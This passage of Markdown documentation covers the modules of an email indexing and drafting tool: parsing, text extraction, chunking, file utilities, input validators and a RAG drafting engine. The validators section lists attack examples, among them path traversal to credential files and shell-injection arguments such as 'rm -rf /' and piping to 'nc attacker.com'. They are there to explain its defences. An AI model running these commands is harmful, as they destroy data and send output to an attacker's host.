5.  **Backslash Repair**: If the strict parse fails, it repairs unescaped backslashes and retries `json.loads()`.
6.  **HJSON Fallback**: If all JSON parsing fails, it attempts to parse the repaired text using the `hjson` library, which is more lenient.
7.  **Final Fallback**: If `hjson` also fails, it returns an empty dictionary `{}`.

### 3.2. `_collect_attachment_files()`

This function collects all attachment files associated with a conversation, handling potential race conditions and ensuring a deterministic order.

**Collection Process:**
1.  **Attachments Subdirectory**: Recursively finds all files in the `Attachments/` subdirectory.
2.  **Root Conversation Directory**: Finds all files in the main `convo_dir`, excluding `Conversation.txt`, `manifest.json`, and `summary.json`.
3.  **Deduplication**: Resolves all file paths to their absolute form and removes any duplicates.
4.  **Sorting**: Sorts the unique files deterministically by path and name.

**Race Condition (TOCTOU) Mitigation:**
- The function is designed to handle `OSError` and `PermissionError` exceptions that can occur if a file is deleted or moved between the time it's listed and the time it's accessed.
- It immediately converts directory iterators to lists to minimize the time window for race conditions.

---

## 4. Dependencies

- **`file_utils.read_text_file`**: For robustly reading text files with encoding detection.
- **`processing_utils.get_processing_config`**: To get configuration for attachment handling.
- **`text_extraction.extract_text`**: For extracting text from various attachment file types.
- **`utils.scrub_json`**: To recursively clean the parsed JSON data.
- **`hjson`** (optional): For lenient JSON parsing as a fallback.

### email_processing.py.md

# `email_processing.py` - Email Cleaning and Structuring

## 1. Overview

This module provides a suite of utilities for processing raw email text. It is responsible for cleaning email bodies, extracting structured metadata from headers, and splitting email threads into individual messages. The cleaning functions are conservative, designed to remove noise while preserving substantive content.

**Key Features:**
- **Text Cleaning**: Removes headers, signatures, and other email artifacts.
- **PII Redaction**: Redacts email addresses and URLs.
- **Metadata Extraction**: Parses RFC-822 style headers into a structured dictionary.
- **Thread Splitting**: Splits a long email thread into a list of individual messages.
- **Performance**: Uses pre-compiled regular expressions for efficient processing.

---

## 2. Core Functions

### 2.1. `clean_email_text(text: str) -> str`

This function takes a raw email body and applies a series of cleaning steps to prepare it for indexing and analysis.

**Cleaning Workflow:**


**Detailed Cleaning Steps:**
1.  **BOM Handling**: Removes the UTF-8 Byte Order Mark (`\ufeff`) if present.
2.  **Header Removal**: Uses a list of pre-compiled regex patterns (`_HEADER_PATTERNS`) to remove common email headers like `From:`, `To:`, `Subject:`, etc.
3.  **Signature/Footer Stripping**: Examines the last 2000 characters of the text and removes common signature patterns (e.g., "Best regards," "Sent from my iPhone") defined in `_SIGNATURE_PATTERNS`.
4.  **Forwarding Separator Removal**: Removes lines like "--- Original Message ---" using `_FORWARDING_PATTERNS`.
5.  **Quoted Reply Removal**: Strips lines that start with `>` (quoted reply markers).
6.  **Redaction**:
    -   Replaces email addresses with `[email@domain]`.
    -   Replaces URLs with `[URL]`.
7.  **Normalization**:
    -   Collapses excessive punctuation (e.g., `...`, `!!!`, `???`).
    -   Reduces multiple spaces/tabs to a single space.
    -   Reduces three or more newlines to two.
    -   Removes blank lines.
8.  **Control Character Stripping**: Uses `_strip_control_chars` from `file_utils` to remove any remaining non-printable characters.

### 2.2. `extract_email_metadata(text: str) -> dict[str, Any]`

This function parses the header block of an email and extracts key metadata into a dictionary.

**Extraction Process:**
1.  Splits the text at the first double newline (`\n\n`) to isolate the header block.
2.  Unfolds folded header lines (lines starting with whitespace).
3.  Uses regex to find and extract the values for the following headers:
    -   `From`
    -   `To`
    -   `Cc`
    -   `Bcc`
    -   `Date` (or `Sent`)
    -   `Subject`

**Return Structure:**
```python
{
    "sender": str | None,
    "recipients": list[str],
    "date": str | None,
    "subject": str | None,
    "cc": list[str],
    "bcc": list[str],
}
```

### 2.3. `split_email_thread(text: str) -> list[str]`

This function splits a single block of text containing an entire email thread into a list of individual messages.

**Splitting Heuristics:**
1.  **Separators**: Splits the text based on common email reply/forward separators, such as:
    -   `--- Original Message ---`
    -   `--- Forwarded Message ---`
    -   `On ... wrote:`
    -   Long underscore lines (`__________`)
2.  **Chronological Sorting**:
    -   After splitting, it attempts to parse a `Date:` header from each part.
    -   If multiple parts have valid dates, the parts are sorted chronologically (oldest to newest).
    -   If dates cannot be reliably determined, the original order from the split is preserved.

---

## 3. Pre-compiled Regex Patterns

For performance, all regular expressions are pre-compiled at the module level.

-   **`_EMAIL_PATTERN`**: Matches email addresses.
-   **`_URL_PATTERN`**: Matches URLs.
-   **`_EXCESSIVE_EQUALS`, `_EXCESSIVE_DOTS`, etc.**: Match and normalize repeated punctuation.
-   **`_MULTIPLE_SPACES`, `_MULTIPLE_NEWLINES`, `_BLANK_LINES`**: For whitespace normalization.
-   **`_QUOTED_REPLY`**: Matches quoted reply lines.
-   **`_HEADER_PATTERNS`**: A list of patterns for matching various email headers.
-   **`_SIGNATURE_PATTERNS`**: A list of patterns for detecting common email signatures and footers.
-   **`_FORWARDING_PATTERNS`**: A list of patterns for identifying message forwarding separators.

---

## 4. Dependencies

-   **`file_utils._strip_control_chars`**: For the final sanitization step to remove control characters.

### text_extraction.py.md

# `text_extraction.py` - Document Text Extraction Utilities

## 1. Overview

This module provides a robust and extensible system for extracting plain text from a variety of file formats. It is a key component of the data processing pipeline, enabling the content of attachments and other documents to be indexed and searched.

**Key Features:**
- **Multi-format Support**: Handles a wide range of file types including PDFs, Word documents, Excel spreadsheets, emails, and more.
- **Resilience**: Gracefully handles errors, missing dependencies, and corrupted files, ensuring that the system does not crash on problematic inputs.
- **Performance**: Caches extraction results to avoid reprocessing the same file multiple times.
- **Platform-Aware**: Includes platform-specific logic (e.g., using `win32com` on Windows for legacy `.doc` files).
- **Asynchronous API**: Provides an `async` version of the main extraction function for use in asynchronous codebases.

---

## 2. Core Function: `extract_text()`

This is the main entry point for the module.

### 2.1. Function Signature

```python
def extract_text(
    path: Path, 
    *, 
    max_chars: int | None = None, 
    use_cache: bool = True
) -> str:
```

### 2.2. Parameters

| Parameter | Type | Default | Description |
|---|---|---|---|
| `path` | `Path` | Required | The path to the file from which to extract text. |
| `max_chars` | `int` | `None` | An optional limit on the number of characters to return. |
| `use_cache` | `bool` | `True` | Whether to use the cache for this operation. |

### 2.3. Return Value

Returns the extracted and sanitized plain text as a string. If extraction fails or the file format is unsupported, it returns an empty string.

### 2.4. Workflow



---

## 3. Supported File Formats and Extraction Logic

The module uses a dispatch pattern based on file extensions to select the appropriate extraction logic.

| File Type | Extensions | Primary Library | Fallback/Notes |
|---|---|---|---|
| Plain Text | `.txt`, `.md`, `.log`, `.json`, `.yaml`, `.csv`, `.xml` | `read_text_file` | - |
| HTML | `.html`, `.htm` | `BeautifulSoup` | Regex-based tag stripping |
| PDF | `.pdf` | `pypdf` | Attempts to decrypt with an empty password. |
| Word | `.docx` | `python-docx` | Extracts text from paragraphs and tables. |
| Word (Legacy)| `.doc` | `win32com.client` (Windows) | `textract` (cross-platform) |
| Excel | `.xlsx`, `.xls` | `pandas` | Uses `openpyxl` or `xlrd` engine. |
| PowerPoint | `.pptx`, `.ppt` | `python-pptx` | Extracts text from all shapes on all slides. |
| RTF | `.rtf` | `striprtf` | - |
| Email | `.eml` | `email` (stdlib) | Extracts headers and text/plain or text/html body. |
| Outlook Msg | `.msg` | `extract-msg` | Extracts headers and body. |

---

## 4. Caching Mechanism

To improve performance, the module caches the results of text extraction.

-   **`_extraction_cache`**: A global dictionary used as the cache.
-   **Cache Key**: A tuple of the resolved file path and the `max_chars` limit: `(path, max_chars)`.
-   **Cache Value**: A tuple of the timestamp and the extracted text: `(timestamp, text)`.
-   **TTL**: A time-to-live of 1 hour (`_CACHE_TTL = 3600`) is used to invalidate stale cache entries.
-   **Thread Safety**: A `threading.Lock` (`_extraction_cache_lock`) is used to ensure that the cache is accessed in a thread-safe manner.

---

## 5. Asynchronous Support

### `extract_text_async()`

An asynchronous wrapper around the `extract_text` function. It uses `asyncio.get_event_loop().run_in_executor()` to run the synchronous `extract_text` function in a separate thread pool, preventing it from blocking the asyncio event loop.

---

## 6. Dependencies

-   **`file_utils`**: For `_strip_control_chars` and `read_text_file`.
-   **`config`**: For `ALLOWED_FILE_PATTERNS`.
-   **Optional Libraries**: `BeautifulSoup`, `docx`, `win32com.client`, `textract`, `pptx`, `striprtf`, `pypdf`, `pandas`, `openpyxl`, `xlrd`, `extract-msg`. The module will gracefully handle `ImportError` if these are not installed and simply skip the corresponding file types.

### text_chunker.py.md

# `text_chunker.py` - Text Chunking and Segmentation

## 1. Overview

This module provides text chunking functionality for EmailOps' indexing system. It segments large documents into smaller, overlapping chunks suitable for embedding and retrieval, ensuring that semantic search can find relevant content even when it spans chunk boundaries.

**Key Features:**
- **Configurable chunk sizing**: Adjustable chunk size and overlap
- **Metadata preservation**: Maintains document metadata across chunks
- **Unique chunk identification**: Generates hierarchical IDs for chunks
- **Progressive scaling support**: Configuration for adaptive chunking
- **Sentence/paragraph respect**: Options for natural text boundaries

---

## 2. Core Components

### 2.1 ChunkConfig Dataclass

```python
@dataclass
class ChunkConfig:
    chunk_size: int = 1500           # Characters per chunk
    chunk_overlap: int = 100         # Overlap between chunks
    min_chunk_size: int = 50         # Minimum viable chunk
    progressive_scaling: bool = True  # Adaptive sizing
    respect_sentences: bool = True   # Break at sentences
    respect_paragraphs: bool = True  # Break at paragraphs
    max_chunks: Optional[int] = None # Limit chunks per doc
    encoding: str = "utf-8"          # Text encoding
```

### 2.2 TextChunker Class

```python
class TextChunker:
    def __init__(self, config: ChunkConfig)
    
    def chunk_text(
        self, 
        text: str, 
        metadata: Optional[Dict[str, Any]] = None
    ) -> List[Dict[str, Any]]
```

---

## 3. Primary Function: `prepare_index_units()`

### 3.1 Function Signature

```python
def prepare_index_units(
    text: str,
    doc_id: str,
    doc_path: str,
    subject: str = "",
    date: Optional[str] = None,
    chunk_size: int = 1500,
    chunk_overlap: int = 100,
) -> List[Dict[str, Any]]
```

### 3.2 Parameters

| Parameter | Type | Default | Description |
|-----------|------|---------|-------------|
| `text` | str | Required | Document text to chunk |
| `doc_id` | str | Required | Base document identifier |
| `doc_path` | str | Required | Path to source document |
| `subject` | str | "" | Document subject/title |
| `date` | str | None | Document date |
| `chunk_size` | int | 1500 | Maximum chunk size in characters |
| `chunk_overlap` | int | 100 | Character overlap between chunks |

### 3.3 Return Structure

```python
[
    {
        "id": "conv_id::conversation",     # First chunk uses base ID
        "text": "chunk text content...",
        "path": "/path/to/document.txt",
        "subject": "Email Subject",
        "date": "2024-01-15"               # Optional
    },
    {
        "id": "conv_id::conversation::chunk1",  # Subsequent chunks
        "text": "next chunk content...",
        "path": "/path/to/document.txt",
        "subject": "Email Subject",
        "date": "2024-01-15"
    }
    # ... more chunks
]
```

---

## 4. Chunking Algorithm

### 4.1 Basic Algorithm

```mermaid
graph TD
    A[Input Text] --> B{Text Empty?}
    B -->|Yes| C[Return Empty List]
    B -->|No| D[Initialize: start=0, chunk_index=0]
    D --> E{start < text_length?}
    E -->|No| F[Return Chunks]
    E -->|Yes| G[end = start + chunk_size]
    G --> H[Extract text[start:end]]
    H --> I[Create Chunk Metadata]
    I --> J[Generate Chunk ID]
    J --> K[Add to Results]
    K --> L[start += chunk_size - overlap]
    L --> E
```

### 4.2 Chunk ID Generation

**ID Structure:**
```
BASE_ID[::[chunk{N}]]

Examples:
- First chunk:  "CONV123::conversation"
- Second chunk: "CONV123::conversation::chunk1"
- Third chunk:  "CONV123::conversation::chunk2"
- Attachment:   "CONV123::att1::chunk0"
```

**Rationale:**
- First chunk uses base ID for backward compatibility
- Subsequent chunks append `::chunk{N}` suffix
- Allows hierarchical querying by prefix
- Maintains unique identification

### 4.3 Overlap Strategy

```
Text: "The quick brown fox jumps over the lazy dog"
chunk_size: 20, overlap: 5

Chunk 0 [0:20]:   "The quick brown fox "
Chunk 1 [15:35]:  "n fox jumps over the"
Chunk 2 [30:45]:  "r the lazy dog"
         ^^^^^ overlap regions
```

**Benefits:**
- Context preservation across boundaries
- Better semantic search matching
- Reduced information loss
- Improved retrieval recall

---

## 5. Integration with EmailOps

### 5.1 Usage in `email_indexer.py`

```python
# Processing conversation text
chunks = prepare_index_units(
    text=conversation_text,
    doc_id=f"{conv_id}::conversation",
    doc_path=str(convo_dir / "Conversation.txt"),
    subject=metadata.get("subject", ""),
    date=metadata.get("end_date")
)

# Processing attachments
chunks = prepare_index_units(
    text=attachment_text,
    doc_id=f"{conv_id}::att{index}",
    doc_path=str(attachment_path),
    subject=metadata.get("subject", "") or attachment_name,
    date=metadata.get("end_date")
)
```

### 5.2 Document Type Handling

| Document Type | Typical Size | Chunk Size | Overlap |
|--------------|--------------|------------|---------|
| Conversation | 5-50 KB | 1500 chars | 100 chars |
| PDF Attachment | 10-500 KB | 1500 chars | 100 chars |
| Excel Attachment | Variable | 1500 chars | 100 chars |
| Text Attachment | 1-100 KB | 1500 chars | 100 chars |

---

## 6. Configuration Strategies

### 6.1 Chunk Size Selection

**Factors to Consider:**
1. **Model Context Window**: Stay within embedding model limits
2. **Semantic Coherence**: Maintain meaningful content units
3. **Search Precision**: Smaller chunks = more precise matches
4. **Storage Efficiency**: Larger chunks = fewer vectors

**Recommended Sizes:**
```python
# For short queries (keywords)
chunk_size=500, overlap=50

# For medium queries (sentences)
chunk_size=1500, overlap=100  # Default

# For long queries (paragraphs)
chunk_size=3000, overlap=200
```

### 6.2 Overlap Configuration

**Overlap Percentage Guidelines:**
- **5-10%**: Minimal context preservation
- **10-15%**: Balanced (recommended)
- **15-20%**: Maximum context preservation
- **>20%**: Diminishing returns, storage overhead

**Formula:**
```python
overlap_percentage = (chunk_overlap / chunk_size) * 100
# Default: (100 / 1500) * 100 = 6.7%
```

---

## 7. Performance Considerations

### 7.1 Memory Usage

**Memory Formula:**
```python
chunks_count = (text_length / (chunk_size - chunk_overlap)) + 1
memory_usage = chunks_count * (chunk_size + metadata_size)
```

### 7.2 Processing Speed

| Operation | Complexity | Time (1MB text) |
|-----------|------------|-----------------|
| Chunking | O(n) | ~10ms |
| ID Generation | O(n) | ~5ms |
| Metadata Copy | O(n*m) | ~15ms |
| Total | O(n*m) | ~30ms |

Where n = number of chunks, m = metadata fields

### processing_utils.py.md

# `processing_utils.py` - Processing Utilities

## 1. Overview

This module provides a collection of utilities to support various data processing tasks within the EmailOps application. It includes tools for batch processing, performance monitoring, and centralized configuration for document processing.

**Key Features:**
- **Batch Processing**: A `BatchProcessor` class for processing items in parallel.
- **Performance Monitoring**: A decorator to monitor the execution time of functions.
- **Centralized Configuration**: A `ProcessingConfig` dataclass for managing document processing settings.
- **Text Preprocessing**: A `TextPreprocessor` class for cleaning and preparing text for indexing.

---

## 2. Core Components

### 2.1. `ProcessingConfig` Dataclass

This dataclass centralizes configuration settings related to document processing, loading values from environment variables with sensible defaults.

**Schema:**
```python
@dataclass
class ProcessingConfig:
    max_attachment_chars: int
    excel_max_cells: int
    skip_attachment_over_mb: float
    max_total_attachment_text: int
```

**Parameters:**
| Parameter | Environment Variable | Default | Description |
|---|---|---|---|
| `max_attachment_chars` | `MAX_ATTACHMENT_TEXT_CHARS` | `500000` | Maximum characters to extract from an attachment. |
| `excel_max_cells` | `EXCEL_MAX_CELLS` | `200000` | Maximum number of cells to process from an Excel file. |
| `skip_attachment_over_mb` | `SKIP_ATTACHMENT_OVER_MB` | `0` | Skip attachments larger than this size in megabytes (0 means no limit). |
| `max_total_attachment_text`| - | `10000` | Maximum total characters of attachment text to include in the conversation. |

### 2.2. `get_processing_config()`

This function returns a singleton instance of the `ProcessingConfig`, ensuring that the configuration is loaded only once.

### 2.3. `Person` Dataclass

A dataclass to represent a person with a name and birthdate. It includes a property to calculate the person's age. This class is currently noted as unused in the codebase but is kept for backward compatibility.

### 2.4. `monitor_performance` Decorator

A decorator that can be applied to any function to monitor its execution time.

**Functionality:**
-   Logs a `WARNING` if the function takes longer than 1.0 second to execute.
-   Logs a `DEBUG` message with the completion time for faster operations.
-   Logs an `ERROR` if the function fails, including the elapsed time before the failure.

### 2.5. `BatchProcessor` Class

A class for processing a list of items in parallel batches using a thread pool.

**Methods:**
-   **`__init__(self, batch_size: int = 100, max_workers: int = 4)`**: Initializes the batch processor with a specified batch size and number of worker threads.
-   **`process_items(self, items: list, processor: Callable, error_handler: Callable | None = None) -> list`**: Processes a list of items in parallel. It takes a `processor` function to apply to each item and an optional `error_handler` to manage exceptions.
-   **`process_items_async(self, items: list, processor: Callable) -> list`**: An asynchronous version of `process_items`.

### 2.6. `TextPreprocessor` Class

A class for centralized text preprocessing, designed to clean text once before chunking and indexing to improve performance.

**Key Features:**
-   **Caching**: Caches the results of text preparation to avoid reprocessing identical inputs.
-   **Type-Specific Cleaning**: Applies different cleaning rules based on the `text_type` (`email`, `attachment`, `document`).
-   **Metadata Generation**: Returns a tuple of the cleaned text and a dictionary of preprocessing metadata (e.g., original length, cleaned length, reduction ratio).

### 2.7. `should_skip_retrieval_cleaning()`

A utility function to determine if a document or chunk has already been pre-cleaned during the indexing process and should therefore skip the cleaning step during retrieval.

---

## 3. Dependencies

-   **`email_processing.clean_email_text`**: Used by the `TextPreprocessor` for cleaning email text.

### file_utils.py.md

# `file_utils.py` - File System Utilities
## 1. Overview

This module provides a set of robust and efficient utilities for common file system operations. It includes functions for reading text files with encoding detection, ensuring directory existence, finding specific project directories, and handling file locks in a platform-aware manner.

**Key Features:**
- **Robust File Reading**: Safely reads text files with multiple encoding fallbacks.
- **Performance**: Uses LRU caching for file encoding detection.
- **Concurrency Safe**: Provides a context manager for file locking.
- **Directory Management**: Includes helpers for creating and finding specific directories.
- **Temporary Resources**: A context manager for creating and cleaning up temporary directories.

---

## 2. Core Functions

### 2.1. Text and File Reading

#### `read_text_file(path: Path, *, max_chars: int | None = None) -> str`
Reads a text file with robust encoding detection and content sanitization.

**Workflow:**
1.  **Encoding Detection**: Calls `_get_file_encoding()` to determine the file's encoding.
2.  **File Read**: Opens the file with the detected encoding and `errors="ignore"`.
3.  **Truncation**: If `max_chars` is provided, it reads only up to that many characters.
4.  **Sanitization**: Passes the content through `_strip_control_chars()` to remove non-printable characters and normalize newlines.
5.  **Error Handling**: Returns an empty string if any exception occurs during the process.

#### `_get_file_encoding(path: Path) -> str`
Detects the most likely encoding of a file by attempting to read it with a list of common encodings.

**Features:**
-   **LRU Cache**: Caches the result to avoid re-detecting the encoding for the same file. The cache size is configurable via the `FILE_ENCODING_CACHE_SIZE` environment variable (default: 1024).
-   **Encoding Priority**: Tries encodings in the following order: `utf-8-sig`, `utf-8`, `utf-16`, `latin-1`.
-   **Fallback**: Returns `latin-1` as a safe fallback that is unlikely to raise a `UnicodeDecodeError`.

#### `_strip_control_chars(s: str) -> str`
A utility function to remove non-printable ASCII control characters from a string and normalize line endings (CRLF/CR to LF).

### 2.2. Directory Operations

#### `ensure_dir(p: Path) -> None`
Ensures that a directory exists, creating it and any necessary parent directories if it does not. This is an idempotent operation.

#### `find_conversation_dirs(root: Path) -> list[Path]`
A specialized function that recursively searches a root directory for "conversation directories." A directory is considered a conversation directory if it contains a file named `Conversation.txt`. It returns a sorted list of the parent directories.

### 2.3. Resource Management

#### `temporary_directory(prefix: str = "emailops_")`
A context manager that creates a temporary directory and ensures it is automatically cleaned up (removed) upon exiting the context, even if errors occur.

#### `file_lock(path: Path, timeout: float = 10.0)`
A context manager for creating a file-based lock to prevent race conditions when multiple processes might access the same file.

**Features:**
-   **Platform-Aware**: Uses `msvcrt` for file locking on Windows and `fcntl` on Unix-like systems.
-   **Timeout**: Raises a `TimeoutError` if the lock cannot be acquired within the specified timeout.
-   **Automatic Cleanup**: The lock file (`.lock`) is automatically created on entering the context and removed on exiting.

---

## 3. Dependencies

-   **`msvcrt`**: (Windows only) for file locking.
-   **`fcntl`**: (Unix-like only) for file locking.

The module is designed to work on both Windows and Unix-like systems by checking `sys.platform`.

### validators.py.corrected.md

# `validators.py` - Security and Input Validation Framework

## 1. Overview

This module provides a comprehensive security and validation framework for EmailOps, implementing defense-in-depth against common vulnerabilities. It serves as the central validation gateway for all external inputs, ensuring data integrity and preventing security breaches.

**Core Security Principles:**
- **Default Deny**: Security features are opt-in, not opt-out
- **Centralized Validation**: Single source of truth for validation logic
- **Input Sanitization**: Active cleaning and neutralization of harmful inputs
- **Principle of Least Privilege**: Command execution with whitelisting support
- **Defense in Depth**: Multiple layers of protection

---

## 2. Validation Functions

### 2.1 Path Validation

#### `validate_directory_path()`

```python
def validate_directory_path(
    path: str | Path, 
    must_exist: bool = True, 
    allow_parent_traversal: bool = False
) -> tuple[bool, str]
```

**Security Features:**
- **Path Traversal Prevention**: Blocks `..` patterns by default
- **Path Resolution**: Expands `~` and resolves to absolute paths
- **Existence Verification**: Optional check for directory existence
- **Type Validation**: Ensures path is actually a directory

#### `validate_file_path()`

```python
def validate_file_path(
    path: str | Path,
    must_exist: bool = True,
    allowed_extensions: list[str] | None = None,
    allow_parent_traversal: bool = False
) -> tuple[bool, str]
```

**Additional Features:**
- **Extension Validation**: Whitelist of allowed file types
- **Case-Insensitive Matching**: Extensions compared in lowercase
- **File Type Verification**: Ensures path is actually a file

---

### 2.2 Input Sanitization

#### `sanitize_path_input()`

```python
def sanitize_path_input(path_input: str) -> str
```

**Sanitization Steps:**
1. **Null Byte Removal**: Prevents null byte injection (`\0`)
2. **Whitespace Trimming**: Removes leading/trailing spaces
3. **Metacharacter Removal**: Keeps only safe characters
   - Allowed: `[a-zA-Z0-9._\-/\\: ]`
   - Removed: Shell metacharacters, control characters

---

### 2.3 Command Execution Safety

#### `validate_command_args()`

```python
def validate_command_args(
    command: str, 
    args: list[str], 
    allowed_commands: list[str] | None = None
) -> tuple[bool, str]
```

**Protection Mechanisms:**
1. **Command Whitelisting**: Optional list of allowed commands
2. **Dangerous Character Detection**: Blocks shell metacharacters
   - Semicolon (`;`) - Command chaining
   - Pipe (`|`) - Command piping
   - Ampersand (`&`) - Background execution
   - Dollar (`$`) - Variable expansion
   - Backtick (`` ` ``) - Command substitution
   - Newlines (`\n`, `\r`) - Line injection
3. **Null Byte Detection**: Prevents string termination attacks

#### `quote_shell_arg()`

```python
def quote_shell_arg(arg: str) -> str
```

**Implementation:**
- Uses `shlex.quote()` for POSIX-compliant quoting
- Prevents shell injection in constructed commands
- Safe for use in subprocess calls

---

### 2.4 Google Cloud Validation

#### `validate_project_id()`

```python
def validate_project_id(project_id: str) -> tuple[bool, str]
```

**GCP Project ID Rules:**
1. **Length**: 6-30 characters
2. **Start**: Must begin with lowercase letter
3. **Characters**: Only lowercase letters, numbers, hyphens
4. **End**: Cannot end with hyphen

---

### 2.5 Environment Variable Validation

#### `validate_environment_variable()`

```python
def validate_environment_variable(
    name: str, 
    value: str
) -> tuple[bool, str]
```

**Validation Rules:**
1. **Name Format**: 
   - Pattern: `^[A-Z_][A-Z0-9_]*$`
   - Examples: `API_KEY`, `DATABASE_URL`, `MAX_RETRIES`
2. **Value Safety**:
   - No null bytes allowed
   - No length restrictions (OS-dependent)

---

## 3. Security Vulnerabilities Prevented

### 3.1 Directory Traversal

**Attack Vector:**
```python
# Attacker input
"../../etc/passwd"
"..\\..\\windows\\system32\\config\\sam"
```

**Prevention:**
- Default `allow_parent_traversal=False`
- Checks for `..` in path string
- Resolves to absolute path for verification

### 3.2 Shell Injection

**Attack Vector:**
```python
# Command injection attempts
command = "ls"
args = ["-la", "; rm -rf /", "| nc attacker.com 4444"]
```

**Prevention:**
- Dangerous character detection
- Argument quoting with `shlex.quote()`
- Command whitelisting support

### 3.3 Null Byte Injection

**Attack Vector:**
```python
# Null byte to terminate string early
"/var/log/app.log\0../../etc/passwd"
```

**Prevention:**
- Explicit null byte removal in sanitization
- Null byte detection in validation

### 3.4 Path Confusion

**Attack Vector:**
```python
# Symlink attacks, relative paths
"./../../../../tmp/evil"
"~/../../root/.ssh/id_rsa"
```

**Prevention:**
- Path resolution to absolute
- Path type verification (file vs directory)
- Symlink resolution via `resolve()`

---

## Part 6: Features

### search_and_draft.py.corrected.md

# `search_and_draft.py` - Advanced Email Search & Draft Engine

## 1. Overview

This module is the central processing engine for EmailOps, orchestrating the entire email workflow from search to draft generation. It implements advanced retrieval-augmented generation (RAG) with multi-stage drafting, conversational chat, and sophisticated email composition capabilities.

**Key Features:**
- **Multi-mode operation**: Reply drafting, fresh email composition, chat, and search-only
- **Advanced RAG pipeline**: Vector similarity search with time-decay recency boosting
- **Multi-stage drafting**: Initial draft → Critic review → Audit loop (up to 5 iterations)
- **Chat sessions**: Persistent conversation history with context-aware responses
- **Email composition**: Standards-compliant `.eml` file generation with attachments
- **Large context windows**: Support for up to 100k+ character contexts

---

## 2. Core Workflows

### 2.1 Email Reply Workflow (`draft_email_reply_eml`)



**Key Components:**
- **Context Gathering**: Uses `_gather_context_for_conv` to retrieve relevant documents within the conversation
- **Smart Recipients**: Derives To/CC from last inbound message, applies reply policies
- **Threading Support**: Preserves `In-Reply-To` and `References` headers

### 2.2 Fresh Email Workflow (`draft_fresh_email_eml`)

```mermaid
graph TD
    A[Query + Recipients] --> B[Global Index Search]
    B --> C[Gather Fresh Context]
    C --> D[Multi-Stage Drafting]
    D --> E[Select Attachments]
    E --> F[Build .eml File]
    F --> G[Save Fresh Email]
```

**Differences from Reply:**
- **Global Search**: Searches entire index, not limited to conversation
- **Manual Recipients**: To/CC provided by user
- **No Threading**: Creates new email thread

### 2.3 Chat Workflow

```mermaid
graph TD
    A[User Message] --> B[Load Session History]
    B --> C[Build Enhanced Query]
    C --> D[Vector Search]
    D --> E[Gather Context]
    E --> F[Generate Response]
    F --> G[Update Session]
    G --> H[Return Answer]
```

**Session Management:**
- Persistent sessions stored in `_chat_sessions/*.json`
- Maximum history of 5 messages (configurable)
- Context-aware search query building from history

---

## 3. Context Gathering Engine (RAG)

### 3.1 Vector Search Pipeline

```mermaid
graph TD
    A[Query Text] --> B[Embed with Provider]
    B --> C{Mode?}
    C -->|Reply| D[Filter by conv_id]
    C -->|Fresh| E[Search Global Index]
    D --> F[Compute Similarity Scores]
    E --> F
    F --> G[Apply Recency Boost]
    G --> H[Filter by Threshold]
    H --> I[Sort by Score]
    I --> J[Collect Until Budget]
```

### 3.2 Recency Boosting Algorithm

```python
# Time-decay function for document scoring
decay = 0.5 ** (days_old / HALF_LIFE_DAYS)
boosted_score = base_score * (1.0 + RECENCY_BOOST_STRENGTH * decay)
```

**Configuration:**
- `HALF_LIFE_DAYS`: Default 30 days
- `RECENCY_BOOST_STRENGTH`: Default 1.0
- `BOOSTED_SCORE_CUTOFF`: Minimum score threshold (0.30)

### 3.3 Context Window Management

```python
# Character budget calculation
char_budget = max_tokens * CHARS_PER_TOKEN  # Default: 3.8 chars/token

# Per-document limits
REPLY_MODE: min(500k, max(100k, budget // 5))
FRESH_MODE: min(250k, max(50k, budget // 10))
CHAT_MODE: 100k chars per snippet
```

---

## 4. Multi-Stage Drafting Process

### 4.1 The Three-Agent System

```mermaid
graph TD
    subgraph "Stage 1: Initial Draft"
        A1[Context + Query] --> B1[CSR Agent]
        B1 --> C1[Draft with Citations]
    end
    
    subgraph "Stage 2: Critic Review"
        C1 --> D1[Quality Control Agent]
        D1 --> E1[Issues & Improvements]
    end
    
    subgraph "Stage 3: Audit Loop"
        E1 --> F1[Auditor Agent]
        F1 --> G1{All Scores ≥8?}
        G1 -->|No| H1[Comms Specialist]
        H1 --> I1[Improved Draft]
        I1 --> F1
        G1 -->|Yes| J1[Final Draft]
    end
```

### 4.2 Audit Scoring Criteria

The Auditor evaluates drafts on five dimensions (1-10 scale):
1. **Balanced-Communication**: Professional tone and balance
2. **Displays-Excellence**: Quality of writing and clarity
3. **Factuality-Rating**: Accuracy and proper citations
4. **Utility-Maximizing-Communication**: Usefulness and completeness
5. **Citation-Quality**: Proper attribution and references

### 4.3 Structured Output Parsing

The module uses bullet-point parsing for robust LLM output handling:

```python
# Parser functions for different response types
_parse_bullet_response_draft()    # Email drafts
_parse_bullet_response_critic()   # Critic feedback
_parse_bullet_response_chat()     # Chat responses
_parse_bullet_response_needs()    # Attachment needs
```

**Benefits:**
- More reliable than pure JSON parsing
- Handles partial responses gracefully
- Supports fallback extraction strategies

---

## 5. Email Composition (`_build_eml`)

### 5.1 Standards Compliance

```python
# RFC-compliant email construction
msg = EmailMessage()
msg["From"] = sender
msg["To"] = ", ".join(recipients)
msg["Message-ID"] = make_msgid(domain=MESSAGE_ID_DOMAIN)
msg["Date"] = formatdate(localtime=True)
```

### 5.2 Multipart Structure

```
multipart/alternative
├── text/plain (primary body)
└── text/html (auto-generated alternative)

+ attachments (via MIME types)
```

### 5.3 Attachment Handling

```python
# Smart attachment selection
- Greedy selection by relevance score
- Size budget enforcement (default 15MB)
- MIME type detection
- Filename preservation
```

---

## 6. Configuration & Environment Variables

### 6.1 Core Settings

| Variable | Default | Description |
|----------|---------|-------------|
| `SENDER_LOCKED_NAME` | "Hagop Ghazarian" | Default sender name |
| `SENDER_LOCKED_EMAIL` | "Hagop.Ghazarian@chalhoub.com" | Default sender email |
| `MESSAGE_ID_DOMAIN` | "chalhoub.com" | Domain for Message-ID generation |
| `REPLY_POLICY` | "reply_all" | Default reply policy |
| `PERSONA` | "expert insurance CSR" | LLM persona for drafting |

### 6.2 Search & Context Settings

| Variable | Default | Description |
|----------|---------|-------------|
| `CHARS_PER_TOKEN` | 3.8 | Character-to-token ratio |
| `CONTEXT_SNIPPET_CHARS` | 1600 | Default snippet size |
| `HALF_LIFE_DAYS` | 30 | Recency boost half-life |
| `RECENCY_BOOST_STRENGTH` | 1.0 | Boost multiplier |
| `CANDIDATES_MULTIPLIER` | 3 | Search candidate multiplier |
| `MIN_AVG_SCORE` | 0.2 | Minimum average score |
| `BOOSTED_SCORE_CUTOFF` | 0.30 | Score threshold after boosting |

### 6.3 Token Budgets

| Variable | Default | Description |
|----------|---------|-------------|
| `REPLY_TOKENS_TARGET_DEFAULT` | 20,000 | Tokens for reply context |
